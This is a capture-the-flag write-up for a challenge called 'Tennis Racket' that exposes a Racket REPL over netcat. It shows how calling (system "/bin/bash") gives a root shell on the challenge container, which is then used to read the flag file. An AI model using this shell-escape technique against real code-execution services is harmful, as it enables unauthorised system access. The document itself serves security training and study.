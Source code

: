 # Tennis Racket

**Challenge Type: REPL Shell**  
**Challenge Status: Solved**

## Challenge
I just started my Computer Science Course at NUS last week and my CS prof is teaching us how to use Racket! He set up a server on his personal computer for us to upload and test our code, I wonder if I can find the answers to next week's test on here heh

`nc tennis1.nypinfsecctf.tk 8010`

## Solution

1. Connect to the server via netcat

`nc tennis1.nypinfsecctf.tk 8010`

2. Start a root shell using Racket-lang's built-in functions

```rkt
(system "/bin/bash")
```

3. Look for the flag file

```bash
root@7bf0ff368443:/# ls -la

total 64
drwxr-xr-x   1 root root 4096 May  6 16:27 .
drwxr-xr-x   1 root root 4096 May  6 16:27 ..
-rwxr-xr-x   1 root root    0 May  6 16:06 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27 03:49 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot
drwxr-xr-x   5 root root  340 May  7 12:16 dev
drwxr-xr-x   1 root root 4096 May  6 16:06 etc
-rw-r--r--   1 root root   31 May  4 02:34 flag
drwxr-xr-x   2 root root 4096 Apr 15  2020 home
lrwxrwxrwx   1 root root    7 Apr 27 03:49 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 27 03:49 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr 27 03:49 media
drwxr-xr-x   2 root root 4096 Apr 27 03:49 mnt
drwxr-xr-x   2 root root 4096 Apr 27 03:49 opt
dr-xr-xr-x 300 root root    0 May  7 12:16 proc
drwx------   2 root root 4096 Apr 27 03:52 root
drwxr-xr-x   5 root root 4096 Apr 27 03:52 run
lrwxrwxrwx   1 root root    8 Apr 27 03:49 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr 27 03:49 srv
dr-xr-xr-x  13 root root    0 May  7 12:16 sys
-rw-r--r--   1 root root    4 May  6 16:27 test
drwxrwxrwt   1 root root 4096 May  4 12:03 tmp
drwxr-xr-x   1 root root 4096 Apr 27 03:49 usr
drwxr-xr-x   1 root root 4096 Apr 27 03:52 var
```

4. Print out flag file contents

```bash
root@7bf0ff368443:/# cat flag

NYP{lisp_or_scheme_idk_anymore}
```

## Ending Note
This challenge was originally solved entirely using Racket-lang's built-in functions. But ever since I found a way to spawn a root shell, the process has became significantly easier.